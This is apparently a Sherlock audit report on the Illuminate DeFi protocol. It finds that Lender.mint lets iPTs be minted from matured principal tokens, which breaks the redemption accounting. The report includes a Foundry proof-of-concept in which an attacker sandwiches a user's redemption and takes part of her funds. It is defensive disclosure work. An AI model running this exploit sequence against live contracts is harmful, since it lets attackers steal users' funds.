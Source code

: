 kenzo

high

# Attacker can steal funds from redemptions by minting matured PTs

## Summary
`Lender.mint` function does not check whether the principal pulled from the user has matured.
This can lead to bad accounting and even allows an attacker to steal funds when user try to redeem their iPTs.

## Vulnerability Detail
In the `mint` method, `Lender` pulls protocol PTs from the user and mints iPTs in return.
**It does not check whether the supplied PT or the iPT has matured.**
A user or attacker can mint additional iPTs after the protocol PTs have already been redeemed by the Redeemer, thereby creating an **inconsistency between iPT's totalSupply and Redeemer's holdings array**. This will lead to loss for users trying to redeem at this state.
This can happen both accidently or maliciously.

## Impact
Loss of user funds.
Let's say Alice and Malaclypse hold each 100 YieldPTs.
Before maturity, Alice mints 100 iPTs using her YPTs.
At maturity, somebody redeems Yield market using `Redeemer`.
After that, Malaclypse uses `Lender.mint` to mint 100 iPTs from his YPTs.
**At this point, the iPT totalSupply is 200, but the Redeemer `holdings` array contains only 100 underlying redeemed.**
Now Alice tries to redeem her iPTs. Since she owns 100/200 of the iPTs, she will get half of the holdings array - 50 underlying - but all of her iPTs have been burned. Therefore she lost funds.
Now if Malaclypse redeems Yield market again, and then redeems his iPTs, since he owns all of the supply he will get 150 underlying.
I programmed such a POC and attached below.

## Code Snippet
The mint [function](https://github.com/sherlock-audit/2022-10-illuminate/blob/main/src/Lender.sol#L270) doesn't check if the market has matured:
```solidity
    function mint(uint8 p, address u, uint256 m, uint256 a) external unpaused(u, m, p) returns (bool) {
        address principal = IMarketPlace(marketPlace).token(u, m, p);
        Safe.transferFrom(IERC20(principal), msg.sender, address(this), a);
        IERC5095(principalToken(u, m)).authMint(msg.sender, a);
        emit Mint(p, u, m, a);
        return true;
    }
```
Therefore a user/attacker can mint tokens iPTs through matured markets, and create the abovementioned loss/attack. See POC.

## Proof of Concept
I created the following POC to show such an attack.
In it Alice simply tries to redeem her tokens, but Malaclypse sandwiches her redemption and steals her funds.
The final assertion in the test asserts that Alice has her starting balance back - but it fails, since Mal stole it.
Add the test to fork/Redeemer.t.sol.
```solidity
function testTryToStealUsingMaturedPTs() public {
        // deploy market
        deployMarket(Contracts.USDC, 0);

        // give redeemer underlying tokens
        deal(Contracts.USDC, address(r), startingBalance);

        // update holdings by executing another redeem
        address principalToken = Contracts.YIELD_TOKEN;
        {
            

            // give lender principal tokens
            deal(principalToken, address(l), startingBalance);

            // approve lender to transfer principal tokens
            vm.startPrank(address(l));
            IERC20(principalToken).approve(address(r), startingBalance*2);
            vm.stopPrank();

            vm.startPrank(msg.sender);

            // execute the redemption
            r.redeem(2, Contracts.USDC, maturity);
            vm.stopPrank();
        }
        // give user illuminate tokens
        address illuminateToken = mp.markets(Contracts.USDC, maturity, 0);
        deal(illuminateToken, msg.sender, startingBalance, true);

        // Set up attacker with matured YieldPTs
        address attacker = address(5);
        deal(principalToken, attacker, startingBalance);

        // At this point, Yield has already been redeemed.
        // The legit user now tries to redeem his iPTs, but attacker sandwiches him and steals his funds.

        // Attacker: mint iPTs for YieldPTs through Lender
        vm.startPrank(attacker);
        IERC20(principalToken).approve(address(l), startingBalance);
        l.mint(2, Contracts.USDC, maturity, startingBalance);
        vm.stopPrank();
        // Original user redeems his iPTs - will get less underlying as accounting is inconsistent
        vm.prank(msg.sender);
        r.redeem(Contracts.USDC, maturity);
        // Now attacker redeems the market again and then redeems his iPTs
        vm.startPrank(attacker);
        r.redeem(2, Contracts.USDC, maturity);
        r.redeem(Contracts.USDC, maturity);

        // Original user should have his original balance back - but he doesn't, as attacker siphoned it. Assertion will fail.
        assertEq(IERC20(Contracts.USDC).balanceOf(msg.sender), startingBalance);
    }
```

## Tool used
Manual Review

## Recommendation
In `Lender.mint`, don't allow minting if the user-supplied PT has matured.
Note that this issue also brings to mind the possible problem with users *redeeming their iPTs* before all protocol redemptions have occurred. But I believe that can be considered a different issue. This current issue is about needing to make sure users can not accidently or maliciously *mint iPTs* that will *dilute* the redemption value for previous iPT holders.